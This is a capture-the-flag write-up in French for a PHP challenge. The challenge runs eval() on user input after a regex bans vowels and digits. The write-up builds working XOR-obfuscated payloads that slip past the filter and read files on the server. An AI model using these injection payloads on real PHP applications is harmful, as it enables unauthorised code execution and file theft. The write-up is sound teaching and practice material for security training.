 # Lipogrammeurs - 200

-   [Retour à l'accueil.](../../index.md)

## Description

`Vous avez trouvé cette page qui vous semble étrange. Pouvez-vous nous convaincre qu'il y a effectivement un problème en retrouvant le flag présent sur le serveur ?`

## Solution

La page principale contient un script php :

```php
if (isset($_GET['code'])) {
    $code = substr($code, 0, 250);
    if (preg_match('/a|e|i|o|u|y|[0-9]/i', $code)) {
        print($code);
        die('No way! PREG');
    } else {
        try {
            print($code);
            eval($code);
        } catch (ParseError $e) {
            die('No way! Go PARSE!');
        }
}
```

On veut donc faire évaluer le contenu de notre variable _code_, ainsi on pourra chercher le flag sur le serveur.

Pour cela nous devons réussir à passer la condition :

```php
preg_match('/a|e|i|o|u|y|[0-9]/i', $code)
```

Notre variable _code_ ne doit donc pas contenir de voyelles ni de chiffres, ce qui n'est pas très pratique si l'on veut dénicher le flag. Il faut donc trouver un moyen de passer outre.

Pour cela on va utiliser des particularités du langage php à notre avantage :

-   XORer deux caractères pour en obtenir un troisième.
-   Passer une variable sans l'avoir définie au préalable, car php estimera alors qu'il s'agit implicitement d'un string.

Préparons notre payload à l'aide de XORs :

```php
php > print_r(scandir("."));
Array
(
    [0] => .
    [1] => ..
    [2] => .git
)
php > $a = 'pr'.("!"^"H").'nt_r(sc'.("?"^"^").'nd'.("!"^"H").'r("."));';
php > eval($b);
Array
(
    [0] => .
    [1] => ..
    [2] => .git
)
```

Mais on ne passe finalement pas le test :

```php
php > print_r(preg_match('/a|e|i|o|u|y|[0-9]/i', $a));
1
php > echo $a;
print_r(scandir("."));
```

En effet, en utilisant XOR on peut retrouver les caractères qui nous sont interdits, mais pour passer la condition, il ne faut pas que les XORs soient interprétés avant la fonction `preg_match`.

Il faut donc contourner ce problème (d'où l'intérêt de la seconde particularité énoncée ci-avant) :

```php
php > $b = "(pr.('!'^'H').nt_r)((sc.('?'^'^').nd.('!'^'H').r)('.'));";
php > echo $b;
(pr.('!'^'H').nt_r)((sc.('?'^'^').nd.('!'^'H').r)('.'));
php > print_r(preg_match('/a|e|i|o|u|y|[0-9]/i', $b));
0
```

On arrive bien a contourner le test, mais qu'en est-il de la fonction `eval` ?

```php
php > eval($b);
#PHP Warning:  Use of undefined constant pr - assumed 'pr' (this will throw an Error in a future version of PHP) in php shell code(1) : eval()'d code on line 1
#PHP Warning:  Use of undefined constant nt_r - assumed 'nt_r' (this will throw an Error in a future version of PHP) in php shell code(1) : eval()'d code on line 1
#PHP Warning:  Use of undefined constant sc - assumed 'sc' (this will throw an Error in a future version of PHP) in php shell code(1) : eval()'d code on line 1
#PHP Warning:  Use of undefined constant nd - assumed 'nd' (this will throw an Error in a future version of PHP) in php shell code(1) : eval()'d code on line 1
#PHP Warning:  Use of undefined constant r - assumed 'r' (this will throw an Error in a future version of PHP) in php shell code(1) : eval()'d code on line 1
Array
(
    [0] => .
    [1] => ..
    [2] => .git
```

Impeccable ! En effet, à l'évaluation php estime que nos constantes non définies sont des strings, il s'occupe alors d'y concatener les XORs (cette fois évalués), ce que nous permet d'injecter notre payload.

On vérifie :

![lipo1](../../Images/lipogrammeurs_1.PNG)

Nous avons fait le plus dur, reste désormais à récupérer le flag à l'aide de la payload suivante :

```php
(pr.('!'^'H').nt_r)((f.('!'^'H').l.('^'^';')._g.('^'^';').t_c.('!'^'N').nt.('^'^';').nts)((sc.('?'^'^').nd.('!'^'H').r)('.')[('B'^'p')]));
# print_r(file_get_contents(scandir('.')[2]))
```

Aurions-nous eu tout faux ?

![lipo2](../../Images/lipogrammeurs_2.PNG)

On se rappelle que le flag était un fichier php, une inspection des sources aura tôt fait de nous rassurer :

![lipo3](../../Images/lipogrammeurs_3.PNG)

-   [Retour à l'accueil.](../../index.md)
